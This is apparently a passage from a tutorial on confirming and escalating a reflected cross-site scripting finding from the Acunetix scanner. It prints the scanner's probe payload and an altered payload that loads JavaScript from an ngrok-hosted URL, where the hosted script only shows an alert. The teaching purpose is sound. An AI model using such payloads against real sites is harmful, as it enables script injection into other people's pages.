

So how does AcunetixÂ knowÂ that it is vulnerable to Cross-site Scripting? In this particular case, it is checking whether it can injectÂ anyÂ HTML payload inside of the page, and verifies if it was reflected in the response:
<strong>1'"()&%<acx><ScRiPt >vf8S(9896)</ScRiPt></strong></td>
TheÂ <acx>Â tag is there to make it easier for us to find the payload in a large page. There is a lot more we can work on, now that we have this information
There are many different ways to escalate a Cross-site Scripting vulnerability and each one will depend on the web application and the context that the vulnerability is in.
For this example, we will be changing our payload to inject aÂ <script>Â tag pointing to our malicious JavaScript hosted online usingÂ ngrok. Ngrok is a very powerful tool for developers and pentesters to quickly have local environments accessible online with a valid HTTPS certificate.
The malicious JavaScript that we are hosting, will just throw an alert with the vulnerable domain to confirm it works.
alert(document.domain);
The payload will now look as follows:
1'"()%26%25<acx><ScRiPt src="https://2f42e89e.ngrok.io"></ScRiPt>